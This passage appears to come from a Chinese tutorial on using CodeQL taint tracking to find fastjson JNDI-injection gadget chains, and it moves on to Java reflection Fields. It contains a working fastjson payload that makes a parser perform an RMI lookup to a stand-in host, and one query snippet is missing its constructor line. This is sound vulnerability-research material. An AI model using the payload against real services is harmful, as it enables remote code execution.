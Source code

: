     class JNDIMethod extends Method{
    JNDIMethod(){
    this.getDeclaringType().getAnAncestor().hasQualifiedName("javax.naming", "Context") and
    	this.hasName("lookup")
    	}
    }

接下来考虑漏洞的source，fastjson的入口函数都是getter和setter这些函数，所以对应的source就为这些getter和setter。

为了获取到入口函数，可以直接通过Method获取到getxxx或setxxx的函数入口。
已知sink和source，定义如下污点追踪类，这里继承TaintTracking2::Configuration 查看污点追踪路径
    
    class MyTaintTrackingConfiguration extends TaintTracking2::Configuration {
    
     	this = "MyTaintTrackingConfiguration" 
      }
    
    override predicate isSource(DataFlow::Node source) {
    exists(Method method|
     	method = source.asExpr().(MethodAccess).getMethod()
     and ((method.getName().indexOf("get"))=0 or (method.getName().indexOf("set"))=0))
    }
    
    override predicate isSink(DataFlow::Node sink) {
    exists(MethodAccess call |
    call.getMethod() instanceof JNDIMethod and sink.asExpr() = call.getArgument(0)
    )
      }
    }
    

分析结果如下：

![](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/codeql_photo/10.png)

执行链利用如下：

    String input = "{\"@type\":\"org.apache.shiro.jndi.JndiRealmFactory\", \"jndiNames\":\"rmi://127.0.0.1/exploit\"}";
    Object obj = JSON.parseObject(input);

但是通过这种查找函数调用的方式，对比 https://xz.aliyun.com/t/7789#toc-4 少了一条执行链。接下来分析通过FieldAccess来判断setXXX或getXXX函数。

首先了解Java中的Field。Field是一种属性，可以是一个类变量，一个对象变量，一个对象方法变量或者是一个函数的参数。说白了，就是java中的成员变量。

什么是成员变量呢？
每个成员变量有类型和值。

java.lang.reflect.Field 为我们提供了获取当前对象的成员变量的类型，和重新设值的方法。


**获取变量的类型**

类中的成员变量分为两种类型：基本类型或引用类型：

	• 基本类型（ 8 种）
		○ 整数：byte, short, int, long
		○ 浮点数：float, double
		○ 字符：char
		○ 布尔值：boolean
	